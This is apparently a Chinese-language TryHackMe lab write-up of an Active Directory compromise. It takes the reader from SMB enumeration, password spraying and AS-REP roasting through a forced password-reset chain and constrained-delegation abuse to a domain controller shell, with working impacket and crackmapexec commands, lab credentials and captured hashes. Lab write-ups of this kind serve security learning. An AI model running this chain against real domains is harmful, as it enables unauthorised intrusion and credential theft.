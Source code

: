 ```yaml
---
title: 'THM Active Directory 渗透测试实战：从委派攻击到域控接管'
description: '本文完整记录了针对THM.corp域的渗透测试过程，涵盖SMB枚举、Kerberos协议攻击、约束委派滥用等高级AD攻击技术，最终通过权限链实现域控接管。'
date: 2025-02-07
tags: ['Active Directory', 'Kerberos', 'SMB', '约束委派', 'BloodHound']
image: 'assets\image-20250210145734557.png'
authors: ['0xd00']
---
```


## 初始信息

已知IP:10.10.92.51

## 信息收集与初始访问

### 端口扫描

```bash
nmap  -sS -T4 -A 10.10.92.51
```

![image-20250207143334163](assets\image-20250207143334163.png)

![image-20250207144723528](assets\image-20250207144723528.png)

根据扫描结果可以知道这是一台Windows Server，直接盯上我们的常客SMB

### SMB枚举

smbmap扫一下有没有匿名用户

```bash
smbmap.py -u "anonymous" -H 10.10.92.51
```

![image-20250207145009172](assets\image-20250207145009172.png)

发现了`Data`目录有读写权限，`IPC$`目录有读权限。

![image-20250207152946792](assets\image-20250207152946792.png)

![image-20250207153148854](assets\image-20250207153148854.png)

通过文本文件我们能得知这个新员工的密码是`ResetMe123!`，而且根据密码内容，这可能是系统的默认密码。

![image-20250207153859430](assets\image-20250207153859430.png)

通过浏览其中的pdf文件我们能够推断出txt文件可能是一个模板文件，用于将`<User>`替换成用户名后渲染到pdf的这一页中。

所以根据内容已经所以接下来的新思路就是枚举所有用户名，尝试使用默认密码进行登录。

### 用户枚举

```bash
crackmapexec smb 10.10.92.51 -u "anonymous" -d thm.local -p '' --rid-brute >> a.txt
```

![image-20250207161022443](assets\image-20250207161022443.png)

```bash
cat a.txt| cut -d '\' -f 2 | grep SidTypeUser | awk '{print $1}' > usernames.txt
```

![image-20250207161633499](assets\image-20250207161633499.png)

### 密码喷射

```bash
crackmapexec smb 10.10.92.51 -u usernames.txt -p 'ResetMe123!'
```

![image-20250207163201644](assets\image-20250207163201644.png)

可以发现，目前只有pdf中的用户`LILY_ONEILL`未修改默认密码。

可惜的是通过`LILY_ONEILL`无法获取到shell

## 横向移动与权限提升

扫描开启了 **“无需预认证”**的账户

```bash
apt install python3-impacket
```

### Kerberos AS-REP Roasting攻击

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass 'thm.corp/' -dc-ip 10.10.92.51 -request -usersfile usernames.txt
```

![image-20250207165554311](assets\image-20250207165554311.png)

发现三个TGT

```
$krb5asrep$23$ERNESTO_SILVA@THM.CORP:6a45925477f99879b8055888ce6bca96$927fb698caac41a10e1023638d035d9115ad11f93a0b21cd4d1b66d9993da62dca5a0d85cda5e1ffd24d769510738c4948b7e482690ba002d0768b8acf8fc22356f161703fd9fe8b5aa701463436625204a4a716bb914784316c26700bfb27a80040ebbbdb3580ccd91e6e130f79481e6d6717ab79b2c1d325bffb4c185876832b950430cee0939edd333e90a0500327bed3284539f0874f548c7b3c81bc0c18d7f922b32982178225a54681e949a3a041795c7e3949f7617e0e665cef645ade4b7dab1fb71ca5ed6e5dc81a3bec792583c111312ff39a745e4c43a9e41d8f9a269b5a1f

$krb5asrep$23$TABATHA_BRITT@THM.CORP:e5a3c8465c0d6fdfa0b6b31c2ea1dfc8$99b7065eeb90ff423ad65e55de27d48fbc36fad77f9dcf4dffc9fcd6347772b9f9903b676512d551c7e565b2be9c192cff0ded60627346d58d500b5d923832d84fdab6da3ec6e03f0ee7ee81b5f54f37916f9aca5eefd5f8ad6fac06147b254b00a459986ad76e52c9a33131891e4984a2fe01c9c2a3def7feee6bf2919b28299fcfa7c932939b2fcfba66a2d5a0217c74f04360d4f2913d4a59a6d52addd6540963c814ed60b72ddcc208aa3beae9d0c37ee75f04a52267b0a27f7a64071cad5a708cb3a786dd8a01a5a41491f724a34856351a49d221c863c93c19a9d1a7df4cea6ae2

$krb5asrep$23$LEANN_LONG@THM.CORP:45cb306670d80c559c718a645b2fecf7$1e48fc282e120d5e78de9644784b6c10b3ef3adf6849bcaae394b333cb3809931783ba62fc40adab997ee0a393f404eddfd4f3256c57edc22e36ddcbcf4f06611170a954f19954ef0650a2306d36c3f67306cb590aa902478adfa9b84ab8de59d29b74c15de0c06aec5a1c3a20b3d6c762634f3d363e68229d9af1dd2bbb15dc1ebee78991a605c509c61b0df0b1034e84261ee53ded8919293214fcf679f4aa90587699f8343fa0852340ede08f095cce71c3043c245e74ec3aeb55d8f268d0648b6cb6c722e01f3e494240b5bef183dd4f1de1634e9dc526a05a7080f2c08311a79336
```

爆破出一个密码

![image-20250207170330360](assets\image-20250207170330360.png)

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py "thm.corp/TABATHA_BRITT:marlboro(1985)" -dc-ip 10.10.92.51 -request -outputfile SPN.hashes
```

![image-20250207171246320](assets\image-20250207171246320.png)

但可惜的是TABATHA_BRITT也不可用。

### bloodhound权限分析

```bash
bloodhound-python -d THM.corp -u 'TABATHA_BRITT' -p 'marlboro(1985)' -ns 10.10.92.51 -c all
```

![image-20250207172229560](assets\image-20250207172229560.png)

### 通过用户枚举域中信息

从此位置起ip变更为`10.10.76.184`

![image-20250210142426054](assets\image-20250210142426054.png)

将收集到的数据导入到`bloodhood`中

检查`AS-REQ Roastable`用户

![image-20250210142805590](assets\image-20250210142805590.png)

选中`TABATHA_BRITT`节点，Node info->OUTBOUND CONTROL RIGHTS->Transitive Object Control

![image-20250210144135361](assets\image-20250210144135361.png)

![image-20250210145734557](assets\image-20250210145734557.png)

![image-20250210153941815](assets\image-20250210153941815.png)

可见约束委派被配置为允许委派到域控制器的 **CIFS** 服务，所以我们获取到`DARLA_WINTERS`账户之后即可获取域控权限。

## 约束委派攻击

### 密码重置操作链

```text
TABATHA_BRITT
└─→ GenericAll → SHAWNA_BRAY
    └─→ ForceChangePassword → CRUZ_HALL
        └─→ ForceChangePassword → DARLA_WINTERS
            └─→ 约束委派 → Domain Controller (CIFS)
```

由于`TABATHA_BRITT`有`SHAWNA_BRAY`的`GenericAll`权限，所以我们可以用其重置`SHAWNA_BRAY`的密码

```bash
net rpc password "SHAWNA_BRAY" "QWER@1234" -U "THM.CORP"/"TABATHA_BRITT"%"marlboro(1985)" -S "10.10.76.184"
crackmapexec smb 10.10.76.184 -u 'SHAWNA_BRAY' -p 'QWER@1234'
```

![image-20250210152013523](assets\image-20250210152013523.png)

`SHAWNA_BRAY`具有`ForceChangePassword`权限

```bash
net rpc password 'CRUZ_HALL' 'QWER@1234' -U 'thm.corp'/'SHAWNA_BRAY'%'QWER@1234' -S 10.10.76.184
crackmapexec smb 10.10.76.184 -u 'CRUZ_HALL' -p 'QWER@1234'
```

![image-20250210152901727](assets\image-20250210152901727.png)

`CRUZ_HALL`也具有`ForceChangePassword`权限

```bash
net rpc password 'DARLA_WINTERS' 'QWER@1234' -U 'thm.corp'/'CRUZ_HALL'%'QWER@1234' -S 10.10.76.184
crackmapexec smb 10.10.76.184 -u 'DARLA_WINTERS' -p 'QWER@1234'
```

![image-20250210153107076](assets\image-20250210153107076.png)

### 约束委派利用

```bash
python3 /usr/share/doc/python3-impacket/examples/getST.py -spn cifs/HayStack.thm.corp -impersonate Administrator THM.corp/DARLA_WINTERS
```

![image-20250210161948114](assets\image-20250210161948114.png)

```bash
export KRB5CCNAME=Administrator.ccache
```

### 域控接管


这里有个小坑,`haystack.thm.corp`应该添加到hosts文件中,`wmiexec`似乎没有参数能够指定域控ip
```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass Administrator@haystack.thm.corp
```

![image-20250210164102035](assets\image-20250210164102035.png)
